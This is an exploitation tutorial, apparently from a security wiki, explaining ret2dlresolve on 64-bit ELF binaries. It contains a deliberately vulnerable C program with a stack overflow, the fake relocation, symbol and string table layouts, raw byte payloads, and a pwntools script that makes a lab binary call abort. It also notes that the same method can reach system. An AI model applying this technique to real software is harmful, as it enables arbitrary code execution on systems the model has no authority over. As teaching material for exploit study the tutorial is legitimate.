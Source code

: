 # Introduction

This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it.

To understand the following content, knowledge of [dynamic linking](../../../Reverse%20Engineering/Binary%20Formats/ELF/Dynamic%20Linking.md) with ELF files is necessary.

# Theory

It is possible to use `_dl_resolve` to call any external function by creating a fake relocation table, symbol table, string table, and GOT. `_dl_resolve` performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.

Because of the checks that `_dl_resolve` performs, the `r_info` must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the `.bss` section, which is closer to the real symbol table in the executable. Additionally, `r_info` must end in 0x7.

For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set `st_other` to 0 and `st_name` to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, `r_info` must be populated with `(( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7`, where `RealToFakeSymbolTableOffset` is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in `_dl_resolve`. `r_offset` on the other hand, must contain the distance between our fake global offset table and the ELF header.

The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.

# Exploitation

```cpp
#include <stdio.h>
#include <stdlib.h>

char message[128];

void SendMessage()
{
	char sender[20];
	
	printf("Enter the message: \n");
	fgets(message, 128, stdin);
	
	printf("Enter the sender name: \n");
	fgets(sender, 0x40, stdin);
}

int main()
{
	SendMessage();		
	printf("Message sent!");
	return 0;
	
}
```

Manually performing this exploit can be rather extremely cumbersome. Anyway, the fake tables should be set in the following way:

Relocation argument:
- `reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry)`

 - must be divisible by the size of the relocation entry:
	 - `Elf32_Rel` : 8 bytes
	 - `Elf32_Rela`: 12 bytes
	 - `Elf64_Rel`: 16 bytes
	 - `Elf64_Rela`: 24 bytes

Fake relocation table:
- `r_offset = FakeGOT - ElfHeader`
- `[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7`
	- the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
- `[+0x10] r_addend = 0 (doesn't matter)`

Fake symbol table:
- `[+0x18] st_name = FakeStringTable - RealStringTable`
- `[+0x20] st_info = 0 (doesn't matter)`
- `[+0x21] st_other = 0`

Fake string table:
- `[+0x22] function name = system\x00 (or any other function)`

The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.

For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.

Consequently, the payload for the `message` is
`"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"`

The actual buffer that will be overflowed is the `sender` buffer the payload for it looks like this:
`"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"`
The last bytes are the value of the relocation argument and the ones before are the address of PLT0.

Indeed, running this exploit results in the programme's abortion through the `abort` function (you can check by the exit code).

```python
from pwn import *

program = process("./dl_resolve")

print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")

print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")

program.interactive()
```

![](res/Images/RDLR_manual.png)

The `abort` procedure takes no arguments which made manual exploitation easier, however, when you want to invoke a function with parameters, such as `system`, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain.
